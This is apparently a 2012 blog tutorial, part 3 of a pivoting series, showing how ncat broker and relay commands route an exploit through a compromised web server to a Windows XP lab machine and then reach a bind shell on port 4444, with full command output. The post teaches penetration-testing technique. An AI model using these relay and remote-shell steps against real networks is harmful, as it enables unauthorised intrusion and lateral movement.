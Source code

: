 ```yaml
---
layout: post
title: "Introduction to pivoting, Part 3: Ncat"
date: 2012-10-16 18:10:26 -0400
comments: true
categories: howto hacking
alias: /2012/10/introduction-to-pivoting-part-3-ncat.html
---
```


In the past two articles, we pivoted our exploit to our target with the help of SSH. If SSH is not available, we can try to use client-to-client and listener-to-listener relays with netcat, as described by Ed Skoudis in [Secrets of America's Top Pen Testers](http://www.inguardians.com/research/docs/Skoudis_pentestsecrets.pdf). We will modify Skoudis' technique by using ncat instead of netcat. Ncat is meant to be a replacement for netcat, and is included in the Nmap 5.x and higher package. I prefer ncat over netcat for this as it allows us to use the same syntax to set up the relays regardless of whether the pivot is running Linux, Windows, or Mac OS X.

<!--more-->

### The scenario

There are two networks, 192.168.81.0/24 and 192.168.63.0/24. Our attacking machine, and a web server that has access to the 192.168.63.0/24 network are located in the 192.168.81.0/24 network. Our target, a Windows XP SP2 machine, is located in the 192.168.63.0/24. Our attacking machine does not have direct access to it, but the web server does.

![](/images/2012-10-16/01.jpg)

We've already compromised the web server and obtained SSH access to it as the user webmaster. Our goal is to use the web server as our pivot and obtain a remote shell on the Windows XP machine.

### The exploit

The Windows XP machine runs a vulnerable service called Server-Strcpy on port 10000. Server-Strcpy is part of the [SecurityTube Exploit Research Megaprimer](http://www.securitytube.net/video/1399) series, and can be downloaded at [http://code.securitytube.net/Server-Strcpy.exe](http://code.securitytube.net/Server-Strcpy.exe). I've written a quick exploit for Server-Strcpy.exe that binds a shell on port 4444, and can be downloaded [here](http://techorganic.com/software/serverstrcpy.py).

### The attack

We need to run ncat on our attacking machine, and on the web server. This means that we need to transfer ncat over to the web server. If your pivot is a Linux machine, you can build a static ncat binary using the following: 

```
# LDFLAGS="-static" ./configure && make ncat_build
```

If the pivot is a Windows machine, you can download a static build of ncat.exe from [http://seclists.org/nmap-dev/2011/q2/1090](http://seclists.org/nmap-dev/2011/q2/1090). Once ncat has been copied over to the pivot, we can begin.

On our attacking machine, we setup a listener-to-listener relay using the following command: 

```
# ncat -lv --broker -m2 10000
Ncat: Version 6.01 ( http://nmap.org/ncat )
Ncat: Listening on :::10000
Ncat: Listening on 0.0.0.0:10000
```

At this point, we'll have port 10000 listening on our machine. On the web server we execute the following command: 

```
$ ncat -v 192.168.81.125 10000 -c "ncat -v 192.168.63.142 10000"
Ncat: Version 5.51 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.81.125:10000.
Ncat: Version 5.51 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.63.142:10000.
```

This tells ncat to connect to our ncat instance listening on port 10000, and then to connect to port 10000 on the target. This completes the setup, and data from our machine will flow through the web server and to the target.

Note that the syntax for executing the client-to-client relay on the pivot is the same, regardless of whether it's a Linux, Windows, or OS X machine. There's nothing else that needs to be done, such as creating a pipe. Compare it to the technique that uses traditional netcat to see the difference.

We can now execute our exploit. Keep in mind that we need to send it to port 10000 on our machine: 

```
# ./exploit.py 127.0.0.1 10000
[+] sending payload of length 1479
[+] done
#
```

With the exploit sent, we can now terminate the ncat relays. Assuming the exploit worked, a bind shell should be listening on 4444 on the target. In order to access it, we once again setup ncat relays, only this time we'll specify port 4444. On our machine we run the following command: 

```
# ncat -lv --broker -m2 4444
Ncat: Version 6.01 ( http://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```

On the web server, we setup the client-to-client relay: 

```
$ ncat -v 192.168.81.125 4444 -c "ncat -v 192.168.63.142 4444"
Ncat: Version 5.51 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.81.125:4444.
Ncat: Version 5.51 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.63.142:4444.
```

Using netcat (or ncat), we can connect to port 4444 on our machine to get a remote shell on the target: 

```
# nc -v 127.0.0.1 4444
localhost [127.0.0.1] 4444 (?) open
 
 
C:\Documents and Settings\Administrator\Desktop>ipconfig
ipconfig
 
Windows IP Configuration
 
 
Ethernet adapter Local Area Connection:
 
        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.63.142
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.63.2
 
C:\Documents and Settings\Administrator\Desktop>
```

We've obtained remote shell access to the Windows XP target once more.

Ncat is a great tool and builds enhancements into the old netcat. It's small, available for major operating systems, and easy to use. In part 4 of this serieis, we'll look at Metasploit's pivoting feature. If Metasploit is your exploitation framework of choice, you'll want to learn to use it to pivot your attacks.
